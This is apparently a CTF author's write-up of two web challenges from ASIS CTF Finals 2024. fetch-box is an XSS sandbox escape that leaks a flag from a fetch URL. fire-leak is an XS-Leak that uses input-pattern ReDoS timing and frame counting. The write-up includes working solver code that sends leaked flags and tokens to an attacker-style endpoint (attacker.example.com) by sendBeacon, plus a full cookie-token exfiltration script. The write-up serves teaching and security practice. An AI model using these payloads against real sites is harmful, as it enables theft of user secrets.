




Thank you for playing ASIS CTF Finals 2024!

There were 7 web challenges and the authors are [@maple3142](https://x.com/maple3142), [@Strellic\_](https://x.com/Strellic_), [@\_splitline\_](https://x.com/_splitline_), [@kevin\_mizu](https://x.com/kevin_mizu), [@\_Worty](https://x.com/_Worty), and [me](https://x.com/arkark_).




I made 2 challenges:

|Challenge|Category|Intended Difficulty| Solved | Keywords |
|:-:|:-:|:-:|:-:|:-:|
|fetch-box|web, misc|easy|19|fetch, sandbox|
|fire-leak|web|medium-hard|1|XS-Leak, ReDoS|

You can see the source code and author's solvers at [my-ctf-challenges](https://github.com/arkark/my-ctf-challenges) repository.

<!-- truncate -->

## [web, misc] fetch-box

- 19 solved / 194 pts
- Source code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fetch-box

Description:

> A client-side sandbox challenge!
>
> - Challenge: `http://fetch-box.asisctf.com:3000`
> - Admin bot: `http://fetch-box.asisctf.com:1337`

### Overview

In this challenge, an HTTP request whose URL includes a flag is periodically sent by `fetch`. The goal is to steal the `flag` value in the URL:

```html title="web/index.html"
<!DOCTYPE html>
<body>
  <h1>XSS Playground</h1>
  <script>
    (() => {
      const flag = localStorage.getItem("flag") ?? "🚩";
      localStorage.removeItem("flag");

      const fetch = Object.freeze(window.fetch);
      const resource = `/ping?${new URLSearchParams({ flag })}`;
      const options = Object.create(null);

      const fun = () => fetch(resource, options);
      setInterval(fun, 500);
    })();

    const params = new URLSearchParams(location.search);
    const xss = params.get("xss") ?? "console.log(1337)";
    setTimeout(xss, 800);
  </script>
</body>
```

There is an obvious XSS vulnerability with `xss` parameter.



Also, the CSP is `base-uri 'none'; frame-ancestors 'none'`.

```javascript title="web/index.js"
import express from "express";
import fs from "node:fs";

const html = fs.readFileSync("index.html", { encoding: "utf8" });

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "base-uri 'none'; frame-ancestors 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .get("/ping", (req, res) => res.type("text").send("pong"))
  .listen(3000);
```

### Solution

First of all, is there any way to cause an error when executing the `fetch`?

A simple way is to access a URL containing an authority:

- e.g. `http://foobar@fetch-box.asisctf.com:3000`



> Uncaught (in promise) TypeError: Failed to execute 'fetch' on 'Window': Request cannot be constructed from a URL that includes credentials: /ping?flag=%F0%9F%9A%A9

Then, an uncaught error occurs and the promise rejection is not handled. This means an `unhandledrejection` event is emitted:

- ref. https://developer.mozilla.org/en-US/docs/Web/API/Window/unhandledrejection_event

Since the error message includes the requested URL, you can get the `flag` value using `addEventListener("unhandledrejection", ...)`.

### Solver

```javascript
const CONNECTBACK_URL = "http://attacker.example.com";

const xss = `
window.addEventListener(
  "unhandledrejection",
  (event) => {
    navigator.sendBeacon("${CONNECTBACK_URL}", event.reason);
  },
  { once: true }
);
`.trim();

const url = `http://foobar@web:3000?${new URLSearchParams({ xss })}`;
// If you report this URL, you will get a flag.
```

- A full exploit code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fetch-box/solution

### Unintended Solutions

There were three unintended solutions.
I wonder if nobody has solved `fetch-box` using the intended solution, but all the solutions are valid and interesting.

#### Using Performance APIs

```javascript
const url = performance.getEntries().find(e => e.initiatorType === "fetch").name;
console.log(url); // -> http://fetch-box.asisctf.com:3000/ping?flag=ASIS%7BREDACTED%7D
```

You can get the requested URL from a `PerformanceNavigationTiming` instance triggered by executing `fetch`.

- ref. https://developer.mozilla.org/en-US/docs/Web/API/PerformanceEntry/name#value



#### Adding a `<meta>` element with CSP

From: https://x.com/tyage/status/1873537456920002982
```javascript
window.addEventListener('securitypolicyviolation', (e) => {
  navigator.sendBeacon('https://.../', e.blockedURI);
});
document.head.innerHTML = `<meta http-equiv="content-security-policy" content="connect-src https://.../">`;
```

You can get the requested URL from a CSP error with `connect-src`.

#### Prototype Pollution to thenable objects

From: https://nanimokangaeteinai.hateblo.jp/entry/2024/12/30/065058
```javascript
Object.prototype.then = function () { console.log(this.url) }
```

You can access the local variables by polluting `then` property.

- ref. https://masteringjs.io/tutorials/fundamentals/thenable

## [web] fire-leak

- 1 solved / 477 pts
- Source code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fire-leak

Description:

> It's time to leak quickly.
>
> - Challenge: `http://fire-leak.asisctf.com:3000`
> - Admin bot: `http://fire-leak.asisctf.com:1337`

### Overview

This is a simple XS-Leak challenge.

```javascript title="A part of web/index.js"
app.get("/", (req, res) => {
  const html = String(req.query.html ?? defaultHtml);

  if (html.length > 1024) return res.send("?");
  if (/[^\x20-\x7e\r\n]/i.test(html)) return res.send("??");
  if (/meta|link|src|data|href|svg|:|%|&|\\|\/\//i.test(html)) return res.send("???");

  res
    .type("html")
    .setHeader(
      "Content-Security-Policy",
      "default-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
    .send(html.replace("{{TOKEN}}", req.cookies.TOKEN));
});
```

- Goal:
    - To steal an admin token: `req.cookies.TOKEN`
- Rules:
    - A given HTML is rendered.
    - `{{TOKEN}}` in the HTML is once replaced with the token.
    - The token's format is 6-bytes hex string (`[0-9a-f]{12}`).
- Limitations:
    - For the `html` parameter:
        - Length limit: `1024`
        - Allowed characters: `[\x20-\x7e\r\n]`
        - Disallowed substring (case-insensitive):
            - `meta`, `link`, `src`, `data`, `href`, `svg`, `:`, `%`, `&`, `\`, `//`
    - CSP: `default-src 'none'; base-uri 'none'; frame-ancestors 'none'`

A new token is issued each time a URL is reported to the admin bot.
```javascript
// Issue a new token
const page1 = await context.newPage();
await page1.goto(APP_URL + "/save-flag", { timeout: 3_000 });
await sleep(2_000);
await page1.close();

// Visit a given URL
const page2 = await context.newPage();
await page2.goto(url, { timeout: 5_000 });
await sleep(60_000);
await page2.close();
```

:warning: This means you need to steal the token **within 60 seconds**. For reference, my solution only requires about 30 seconds.

### Solution

The CSP and the `html` parameter's limitations prevent typical XS-Leak techniques. On the condition, are there useful HTML elements and/or attributes to construct an oracle?

My solution used `<input pattern="..." value="...">`.

- ref. https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/pattern

The `pattern` attribute specifies a regular expression for the input validation. It seems useful for XS-Leak with ReDoS.

For example:
```html
<input
  type="text"
  pattern=".*(.?){12}[abcd]beaf"
  value="xxxxx...snip...xxxxx{{TOKEN}}"
>
```

This validation works as follows:

- If the token matches with `^.*[abcd]beaf$`, the validation process is not heavy.
- Otherwise, the validation process is heavy.

However, there is a big(?) problem:

- You need to construct a **stable** oracle to ensure the leak process completes **within 60 seconds**.
- An XS-Leak depending on the browser's busy state tends to be **unstable** and takes a **long time**.

To address this, I added an `<iframe>` element and used the frame counting technique:
```html
<input
  type="text"
  pattern=".*(.?){12}[abcd]beaf"
  value="xxxxx...snip...xxxxx{{TOKEN}}"
>
<iframe></iframe>
```

- ref. https://xsleaks.dev/docs/attacks/frame-counting/

I measured how long it takes for the `window.length` value to change. As a result, I found that it is possible to reliably observe differences in the time required to evaluate a regular expression.


### Solver

```html
<body>
  <script type="module">
    // http://web:3000
    const BASE_URL = new URLSearchParams(location.search).get("baseUrl");

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const waitFor = async (f) => {
      while (true) {
        if (await f()) return;
        await sleep(3);
      }
    };

    const win = open("about:blank");

    const measure = async (pattern) => {
      win.location = "about:blank";
      await waitFor(() => win.length === 0);
      await sleep(100);

      const pad = "x".repeat(100);
      const html = `
        <input type="text" pattern="${pattern}" value="${pad}{{TOKEN}}">
        <iframe></iframe>
      `.trim();
      const url = `${BASE_URL}?${new URLSearchParams({ html })}`;

      win.location = url;
      await waitFor(() => {
        try {
          win.origin;
          return false;
        } catch {
          return true;
        }
      });
      const start = performance.now();
      await waitFor(() => win.length === 1);
      const time = performance.now() - start;

      return time;
    };

    const search = async (known) => {
      const CHARS = "0123456789abcdef";
      const W = 12;

      // Binary Search
      let left = 0;
      let right = CHARS.length;
      while (right - left > 1) {
        const mid = (right + left) >> 1;

        const timeL = await measure(`.*(.?){${W}}[${CHARS.slice(left, mid)}]${known}`);
        const timeR = await measure(`.*(.?){${W}}[${CHARS.slice(mid, right)}]${known}`);

        if ((Math.min(timeL, timeR) + 10) * 4 > Math.max(timeL, timeR)) {
          // retry
          await sleep(2000);
          continue;
        }

        if (timeL < timeR) {
          right = mid;
        } else {
          left = mid;
        }
      }

      return CHARS.slice(left, right);
    };

    const main = async () => {
      let known = "";
      for (let i = 0; i < 6 * 2; i++) {
        known = (await search(known)) + known;
        navigator.sendBeacon("/debug", JSON.stringify({ i, known }));
      }
      navigator.sendBeacon("/token", known);
    };
    main();
  </script>
</body>
```

- A full exploit code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fire-leak/solution
